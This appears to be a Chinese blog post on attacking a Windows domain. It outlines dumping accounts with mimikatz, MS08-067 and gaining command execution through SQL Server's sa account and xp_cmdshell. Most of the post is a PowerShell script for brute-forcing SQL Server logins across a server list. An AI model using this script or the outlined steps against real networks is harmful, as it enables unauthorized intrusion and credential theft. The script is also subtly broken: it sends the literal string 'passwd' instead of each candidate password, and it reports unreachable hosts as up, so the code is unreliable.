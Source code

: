 ```yaml
---
title: 内网域渗透之sqlserver爆破
tages: 安全研究
last_modified_at: 2015-10-10
keywords: 域渗透,sqlserver爆破
description: 本文介绍内网域渗透的一些技巧
---
```


> 内网渗透中寻找基础设施的漏洞是非常关键的，而内网中有很多sqlserver等设施存在弱口令，可利用域查询所有sqlserver然后进行弱口令爆破


## 1 内网渗透测试思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 2 通过弱口令破解sqlserver登录口令

由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。作者写了一个powershell脚本能够对这个列表进行暴力破解。

脚本如下：


``` powershell
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
    $pos = $server.Indexof(".")
    $serverName = $server.Substring(0,$pos)
    if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
        Write-Host "[+] Up $server"
        $serverList += $server
    } else {
        Write-Host "[+] Up $server"
    }
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
    Foreach ($passwd in $passwdFile) {
        Foreach ($server in $serverList) {
            $con = New-Object System.Data.SqlClient.SqlConnection
            $con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
            Try {
                $con.Open()
                Write-Host "[+] Success: $server; $user; $passwd."
                $result += "$server; $user; $passwd"
            }
            Catch {
                Write-Host "[+] Failed: $server; $user; $passwd."
            }
        }
    }
}

$result | out-file "result.txt"
```

脚本中server.txt为sqlserver服务器列表，user.txt为用户名列表，passwd为password列表。执行结果保存在脚本目录下的result.txt文件中。

[1]: http://drops.wooyun.org/pentesting/2125